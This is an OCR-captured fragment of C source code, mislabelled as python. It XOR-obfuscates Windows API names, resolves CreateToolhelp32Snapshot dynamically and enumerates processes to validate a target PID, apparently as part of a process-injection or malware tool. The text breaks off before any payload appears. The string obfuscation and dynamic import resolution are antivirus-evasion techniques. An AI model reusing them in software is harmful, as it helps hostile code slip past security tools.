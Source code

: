 ```python
	{
		data[i] ^= key;
	}
}

int main( int argc, char* argv[] )
{
    if( argc < 2 )
    {
        return 1;
    }

    HANDLE process_snapshot;
    HANDLE target_process = NULL;
    PROCESSENTRY32 current_process;
    DWORD process_id = atoi( argv[1] );

    //
    // ENUMERATE RUNNING PROCESSES TO ENSURE PID IS VALID
    //
    unsigned char kernel32_dll_encrypted[] = { 0x3c, 0x32, 0x25, 0x39, 0x32, 0x3b, 0x64, 0x65, 0x79, 0x33, 0x3b, 0x3b, 0x57 };
    xor_decrypt( kernel32_dll_encrypted, sizeof(kernel32_dll_encrypted) );
    HMODULE kernel32_dll_handle = LoadLibraryA( kernel32_dll_encrypted );
    
    if( NULL == kernel32_dll_handle )
    {
        // printf( "Could not load kernel32.dll!\n" );
        return 1;
    }
    
    unsigned char CreateToolhelp32Snapshot_encrypted[] = { 0x14, 0x25, 0x32, 0x36, 0x23, 0x32, 0x03, 0x38, 0x38, 0x3b, 0x3f, 0x32, 0x3b, 0x27, 0x64, 0x65, 0x04, 0x39, 0x36, 0x27, 0x24, 0x3f, 0x38, 0x23, 0x57 };
    xor_decrypt( CreateToolhelp32Snapshot_encrypted, sizeof(CreateToolhelp32Snapshot_encrypted) );

    HANDLE( WINAPI * _CreateToolhelp32Snapshot )
    (
        DWORD dwFlags,
        DWORD th32ProcessID        
    );

    _CreateToolhelp32Snapshot = (HANDLE (WINAPI *)
    (
        DWORD dwFlags,
        DWORD th32ProcessID     
    )) GetProcAddress( kernel32_dll_handle, CreateToolhelp32Snapshot_encrypted );

    if( NULL == _CreateToolhelp32Snapshot )
    {
        // printf( "Could not resolve CreateToolhelp32Snapshot!\n" );
        return 1;
    }

    process_snapshot = _CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS, 0 );

    if( NULL == process_snapshot )
    {
        return 1;
    }

    current_process.dwSize = sizeof( PROCESSENTRY32 );
    
```